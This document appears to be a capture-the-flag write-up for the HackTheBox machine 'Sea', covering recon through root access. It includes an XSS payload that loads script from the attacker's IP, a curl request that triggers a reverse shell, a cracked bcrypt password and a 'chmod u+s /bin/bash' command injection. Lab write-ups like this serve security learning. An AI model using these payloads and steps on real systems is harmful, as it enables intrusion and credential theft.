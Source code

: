 ```yaml
---
title: Sea
tags:
  - Linux
  - CVE
  - Brute-Forcing
  - Tunnelling
  - Command-Injection
  - HackTheBox
  - Easy
date: 2024-07-01T00:00:00Z
---
```

![](Pasted%20image%2020240901173921.png)

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts
```

Then, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- sea.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So I took a look at the webpage:

![](Pasted%20image%2020240901174311.png)

After some inspection, I decided to perform a subdomain scan using [Ffuf 🐳](/notes/tools/Ffuf.md) and a [dirsearch 📁](/notes/tools/dirsearch.md) scan, but I didn't found anything, so I took a look back to the webpage and discover the `contact.php` endpoint:

![](Pasted%20image%2020240901175856.png)

After some tries of XSS and SQLi, I got anything, so i went back to further enumeration again with dirsearch:

```shell
[redacted]
dirsearch -u http://sea.htb/themes/bike -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[redacted]
[18:03:05] 301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
[18:03:05] 200 -    1KB - /themes/bike/home                                 
[18:03:06] 200 -    6B  - /themes/bike/version                              
[18:03:06] 404 -    3KB - /themes/bike/Home                                 
[18:03:07] 301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
[18:03:09] 200 -   66B  - /themes/bike/summary                              
[18:03:11] 200 -    1KB - /themes/bike/404                                  
[18:03:17] 200 -    1KB - /themes/bike/LICENSE                              
[18:03:51] 404 -    3KB - /themes/bike/HOME                                 
[18:04:27] 404 -    3KB - /themes/bike/_home                                
[18:04:37] 404 -  269B  - /themes/bike/http%3A%2F%2Fwww
```

I inspected the LICENSE and version (3.2.0):

![](Pasted%20image%2020240901180835.png)

So I decided to take a look at `turboblack` on the Internet:
- [HamsterCMS](https://github.com/turboblack/HamsterCMS)

## Weaponization

Then I searched for *"hamster cms 3.2.0 exploit"* and got [CVE-2023-41425](https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE)

## Exploitation

Execute the script like:

```shell
python3 exploit.py http://sea.htb/loginURL 10.10.14.60 9001
```

Now set up a netcat listener at port 9001 and paste the following in the url of the form:

```sh
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.60:8000/xss.js"></script><form+action="
```

![](Pasted%20image%2020240901213141.png)

Now perform the following curl request:

```shell
curl "http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.60&lport=9001"
```

> We've got a reverse shell :D

![](Pasted%20image%2020240901213259.png)

Stabilize the shell:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we can't read user flag, so I decided to further inspect the machine. Inside the `/var/www/sea/data` I found a file called `database.js`, which contained a password hash:

```shell
www-data@sea:/var/www/sea/data$ cat database.js 
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/09\/01 19:38:45": "127.0.0.1",
            "2024\/09\/01 19:36:45": "127.0.0.1",
            "2024\/09\/01 19:29:44": "127.0.0.1",
            "2024\/09\/01 19:29:14": "127.0.0.1",
            "2024\/09\/01 19:27:44": "127.0.0.1"
        },
        "lastModulesSync": "2024\/09\/01",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
[redacted]
```

Inspecting [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes), `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q` seems to be bcrypt. So I tried to crack that hash:

```shell
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

After a long time arguing why it didn't work, I noticed that the `/` were escaped, so just set the command like:

```shell
hashcat -m 3200 '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' /usr/share/wordlists/rockyou.txt
```

Bingo! `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
`
> I got user flag :D

![](Pasted%20image%2020240901215438.png)

## Privilege escalation

Now it's time to run linpeas and see possible PE. I noticed that port 8080 was in use, so I decided to make a port forwarding to my machine:

![](Pasted%20image%2020240901215737.png)

In my machine I ran:

```shell
ssh -L 1010:127.0.0.1:8080 -N amay@sea.htb
```

Now I visited  the new port available:

![](Pasted%20image%2020240901220115.png)

And I used the machine credentials: `amay:mychemicalromance`:

![](Pasted%20image%2020240901220157.png)

Let's try to analyze the request of the **Analyze** button:

![](Pasted%20image%2020240901220631.png)

If we send the petition to the repeater, we can try to perform a command injection:

Command: `chmod u+s /bin/bash`

![](Pasted%20image%2020240901220855.png)

> We can now become root and obtain root flag

![](Pasted%20image%2020240901221038.png)

==Machine pwned==

